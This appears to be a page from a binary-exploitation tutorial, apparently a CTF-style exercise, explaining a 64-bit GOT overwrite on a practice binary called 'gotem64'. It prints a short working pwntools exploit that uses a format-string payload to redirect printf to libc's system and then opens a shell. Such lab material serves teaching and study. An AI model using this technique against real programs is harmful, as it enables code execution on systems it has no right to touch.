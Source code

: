 ```yaml
---
description: Repeating a GOT overwrite in 64-bit.
---
```


# gotem64

{% file src="../../.gitbook/assets/gotem64.zip" %}

This is the same binary as [_gotem_](gotem.md), except we're in 64-bit this time. This makes almost no change in the exploit other than changing the base address of `libc` and the offset of the format string.

Below is a functional exploit. Try to rebuild it independently to understand how to collect the format string offset and the `libc` base address.

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./gotem64')
libc = elf.libc
libc.address = 0x00007ffff7c00000
p = process()

payload = fmtstr_payload(6, {elf.got.printf : libc.sym.system})

p.recvline()
p.sendline(payload)
p.interactive()
```
{% endcode %}

Running this exploit gets us a shell, which gives us our flag!
